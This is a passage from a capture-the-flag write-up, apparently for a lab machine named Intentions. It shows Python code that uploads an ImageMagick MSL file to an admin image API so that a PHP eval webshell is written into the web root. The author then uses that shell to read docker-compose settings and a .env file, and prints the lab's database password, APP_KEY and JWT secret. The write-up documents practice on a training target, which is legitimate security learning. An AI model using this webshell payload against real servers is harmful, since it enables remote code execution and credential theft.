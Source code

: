 ```python
msl_file = f'''<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php @eval(@$_REQUEST['cmd']); ?&gt;" />
<write filename="info:/var/www/html/intentions/storage/app/public/shell.php" />
</image>'''

def write_webshell():
    # POST the msl with json moved to the request params.
    url = target_url + "/api/v2/admin/image/modify"
    url += "?path=vid:msl:/tmp/php*&effect=sepia"
    files = {"payload":("payload.msl", msl_file, 'text/plain')}
    response = s.post(url, files=files)
    print(f'[{response.status_code}] {response.text}')
```

> Note that the session object, `s` is already authenticated as `greg` by the time that code runs. See the github repo for all the details on how that works.

![working webshell](working%20webshell.png)



## USER FLAG

### User: www-data

Using this webshell, I'll take a look around and see if there's a good way to get a better foothold. First I checked if I can access anyone's home directories: I cannot. Second, I started looking around the webserver `/var/www/html` for config files. Almost immediately, I found `/var/www/html/intentions/docker-compose.yml`, which revealed a few facts:

- The webserver is using Laravel
  - Laravel has an additional port mapped `5173:5173`
- There is a `mariadb` container on port `3306`
  - The volume is mapped to `/var/lib/mysql`
  - There is probably an initialization script at `/var/www/html/intentions/vendor/laravel/sail/database/mysql/create-testing-database.sh:/docker-entrypoint-initdb.d/10-create-testing-database.sh`
  - `healthcheck` is defined as `test: ["CMD", "mysqladmin", "ping", "-p${DB_PASSWORD}"]`

Since `docker-compose.yml` used lots of environment variables, I also checked for a `.env` file. There was one sitting adjacent to the docker compose file. Notable environment variables include:

```
APP_KEY=base64:YDGHFO792XTVdInb9gGESbGCyRDsAIRCkKoIMwkyHHI=
DB_DATABASE=intentions
DB_USERNAME=laravel
DB_PASSWORD=02mDWOgsOga03G385!!3Plcx
SESSION_LIFETIME=120
REDIS_HOST=redis
REDIS_PASSWORD=null
REDIS_PORT=6379
MAIL_MAILER=smtp
MAIL_HOST=mailhog
MAIL_PORT=1025
JWT_SECRET=yVH9RCGPMXyzNLoXrEsOl0klZi3MAxMHcMlRAnlobuSO8WNtLHStPiOUUgfmbwPt
```
